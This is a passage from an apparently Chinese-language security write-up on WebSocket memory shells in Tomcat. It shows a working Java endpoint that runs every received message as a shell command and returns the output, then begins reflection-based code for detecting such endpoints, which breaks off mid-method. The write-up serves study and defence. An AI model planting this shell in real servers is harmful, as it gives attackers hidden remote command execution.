 ```java

    private Session session;

    public void onMessage(String message) {
        try {
            boolean iswin = System.getProperty("os.name").toLowerCase().startsWith("windows");
            Process exec;
            if (iswin) {
                exec = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", message});
            } else {
                exec = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", message});
            }

            InputStream ips = exec.getInputStream();
            StringBuilder sb = new StringBuilder();

            int i;
            while((i = ips.read()) != -1) {
                sb.append((char)i);
            }

            ips.close();
            exec.waitFor();
            this.session.getBasicRemote().sendText(sb.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void onOpen(Session session, EndpointConfig config) {
        this.session = session;
        this.session.addMessageHandler(this);
    }
}
```

效果：

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202207191826978.png)



## WebSocket内存马的检测方法

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202207200104113.png)

addEndpoint之后，可以在wsServerContainer里面有个configExactMatchMap属性里面找到Endpoint

只需要想办法拿到这个configExactMatchMap里面的config，然后就可以调用getPath等方法就可以拿到endpoint的各种属性，以此来判别是否为内存马

```java
public synchronized List<ServerEndpointConfig> getEndpointConfigs(HttpServletRequest request) throws Exception {
    ServerContainer sc = (ServerContainer) request.getServletContext().getAttribute(ServerContainer.class.getName());
    Field _configExactMatchMap = sc.getClass().getDeclaredField("configExactMatchMap");
    _configExactMatchMap.setAccessible(true);
    ConcurrentHashMap configExactMatchMap = (ConcurrentHashMap) _configExactMatchMap.get(sc);

    Class _ExactPathMatch = Class.forName("org.apache.tomcat.websocket.server.WsServerContainer$ExactPathMatch");
    Method _getconfig = _ExactPathMatch.getDeclaredMethod("getConfig");
    _getconfig.setAccessible(true);

```